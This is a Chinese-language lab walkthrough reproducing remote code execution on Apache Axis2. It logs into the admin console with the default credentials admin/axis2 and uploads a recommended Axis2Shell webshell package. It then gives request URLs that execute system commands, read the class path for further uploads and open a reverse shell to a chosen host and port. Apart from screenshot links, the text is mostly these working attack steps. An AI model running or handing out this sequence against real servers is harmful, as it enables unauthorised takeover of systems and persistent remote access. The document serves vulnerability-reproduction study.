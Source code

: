 ### 3.3漏洞复现

访问

```
http://192.168.0.78:8080/axis2/
```

![image-20220910123312503](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910123312503.png)

点击 Administration

![image-20220910123340127](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910123340127.png)

```
admin
axis2
```

上传.aar包 , 推荐一个axis2的webshell  

```
https://github.com/Svti/Axis2Shell ( 推荐 config.aar包 ) 
```

![image-20220910124051454](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910124051454.png)

![image-20220910124127190](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910124127190.png)

![image-20220910124118784](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910124118784.png)

查看参数

```
http://ip:8080/axis2/services/config?wsdl
```

![image-20220910132948620](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910132948620.png)

执行系统命令

```
http://ip:8080/services/config/exec?cmd=whoami
```

![image-20220910133003379](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910133003379.png)

查看class的路径 , 方便文件上传

```
http://ip:8080/services/config/getClassPath
```

![image-20220910133125782](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910133125782.png)

反弹shell

```
http://ip:8080/services/config/shell?host=ip&port=5656
```

